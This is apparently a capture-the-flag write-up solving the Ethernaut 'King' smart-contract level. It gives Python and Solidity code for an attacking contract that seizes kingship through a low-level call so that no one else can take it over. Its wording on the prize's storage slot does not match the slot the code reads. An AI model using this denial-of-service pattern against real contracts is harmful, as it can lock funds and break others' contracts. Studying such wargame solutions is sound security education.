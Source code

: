 # King

## Objectives

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

## Solution

Here all we have to do is have a contract become `king` as opposed to an ordinary address. So we create a contract that performs a low level call to send the funds (because `transfer` would run out of gas) to the King contract. The amount to send has to be greater than or equal to 0.001 ETH (1e15 wei). Once the contract takes over as king, no other contract or address can take over.

## How I did it

1. Deploy the attacking contract KingAttack (at: `0x27eb59A15364a45a53AcB341514e0fcAf44BF0Ad`)

```python
kingattack = KingAttack.deploy(EthernautInstances['king'], _from)
```

2. Call the `becomeKing()` function, while sending enough funds to take over the contract (1e15 wei = 0.001 ether) defined in the contract as follows:

```cs
function becomeKing() external payable {
    (bool success,) = address(kingContract).call{value: msg.value}("");
    require(success, "Transfer failed.");
}
```

Calling it in python, we get the value directly from the King contract's storage position 2, where the prize is located (located in position 2 because it is a uin256 which occupies a full slot and the first slot is occupied by an address, also 32 bytes).

```python
kingattack.becomeKing({'value':int(web3.eth.get_storage_at(king.address, '0x01').hex(),16)} | _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0xcb97566e0e4fbd7658eb587ba7d7418d54ce86830542dd567c23f73cb1b46873

3. Check that we have actually become King

```python
king_assertion = king._king() == kingattack.address
print(f'The contract address {kingattack.address} is the king: {king_assertion}')
```

With the prior knowledge that the contract cannot be taken over by a normal address or another contract, we have effectively broken the takeover mechanism.

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x9124cf8bb5f0bc17806a8264443ac0b5a3b9ea22a49818af9d1205be9dbb6aec
